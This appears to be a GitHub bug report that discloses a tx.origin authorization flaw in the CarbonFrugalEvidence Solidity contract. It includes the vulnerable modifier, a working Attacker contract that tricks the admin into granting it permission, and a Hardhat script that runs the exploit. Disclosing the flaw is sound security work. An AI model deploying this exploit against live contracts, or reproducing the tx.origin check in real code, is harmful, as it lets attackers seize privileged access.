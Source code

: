 ## Problematic code design (tx.origin) that allows attacker to pass the authority check

**Describie the bug**

The contract *CarbonFrugalEvidence* contains a bug that can make the attacker pass the authority check because of `tx.origin`. For instance, the modifier onlyAdmin check whether the `tx.origin` is the admin of the contract. In function *changePermitManager* utilizes the modifier to check the authority and let the *userAddress* to be permitted with returned value 1.

```solidity
modifier onlyAdmin() {
        require(
            tx.origin == _admin,
            "AuthService onlyAdmin：你不是超级管理员，无法进行对应操作！"
        );
        _;
    }
//修改授权，address userAddress 用户地址 .bool permitState 授权状态 true 开启，false关闭
    function changePermitManager(address userAddress, bool permitState)
        public
        onlyAdmin
        returns (uint256)
    {   // for test log
        console.log("tx.orgin: ",tx.origin);
        require(
            userAddress != address(0),
            "AuthService changePermitManager: 账户为空地址！"
        );
        uint256 state = 0;
        string memory stateMessage = "";
        permitManagerMapping[userAddress] = permitState;
        if (permitManagerMapping[userAddress] == permitState) {
            state = 1;
            stateMessage = "AuthService addAuthUser:授权状态修改成功!";
        } else {
            stateMessage = "AuthService addAuthUser:授权状态修改失败!";
        }
        emit SetPermitUserEvent(
            tx.origin,
            userAddress,
            state,
            permitState,
            now,
            stateMessage
        );
        return state;
    }
}
```



**To Reproduce**

Steps to reproduce the behavior:

1. prepare harhat testing environment

2. copy problematic *CarbonFrugalEvidence* with inserted log output statement (lines 14 shown above) which are used in test to a created directory `contracts`

3. create an attacker contract instance that can utilize the vulnerability `Attacker`

   ```solidity
   pragma solidity ^0.4.24;
   import "hardhat/console.sol";
   import "./CarbonFrugalEvidence.sol";
   
   interface IEvidence {
       function changePermitManager(address userAddress, bool permitState)
           public
           returns (uint256);
   }
   
   contract Attacker {
       address _evidence;
   
       constructor(address evidence) {
           _evidence = evidence;
       }
   
       function callback() public returns (uint256) {
           console.log("msg.sender of Attacker: ", msg.sender);
           uint256 state = IEvidence(_evidence).changePermitManager(
               address(this),
               true
           );
           // test the success of attack using tx.origin
           // state equals to 1 if got attacked
           console.log("state: %s", state);
           if (state == 1) {
               console.log("successful attack.");
           } else {
               console.log("fail to attack.");
           }
           return state;
       }
   }
   
   ```

   In this contract, if the admin of contract `CarbonFrugalEvidence` calls the *callback()*, then the attacker contract can invoke the *changePermitManager* to pass the authority check (cause the `tx.origin` is still the admin), thus making itself permitted.

4. use the followed test deployment js to execute `npx hardhat run scripts/deploy.js`

   ```js
   async function main() {
     const [deployer] = await ethers.getSigners();
   
     console.log("Deploying contracts with the account:", deployer.address);
   
     const victim = await ethers.getContractFactory("CarbonFrugalEvidence");
     const token = await victim.deploy();
   
     console.log("Victim CarbonFrugalEvidence address:", token.address);
   
     const attacker = await ethers.getContractFactory("Attacker");
     const att = await attacker.deploy(token.address);
     console.log("Attacker address:", att.address);
   
     const res = await att.callback();
     console.log(res);
   }
   
   main()
     .then(() => process.exit(0))
     .catch((error) => {
       console.error(error);
       process.exit(1);
     });
   ```

   

**Expected behavior**

The test results will show the return value ` state` is 1, which means the attacker successfully pass the authority check with the use of `tx.origin`.



**Screenshots**

<img src="./image-20230222141033669.png" alt="image-20230222141033669" style="zoom:67%;" align=left />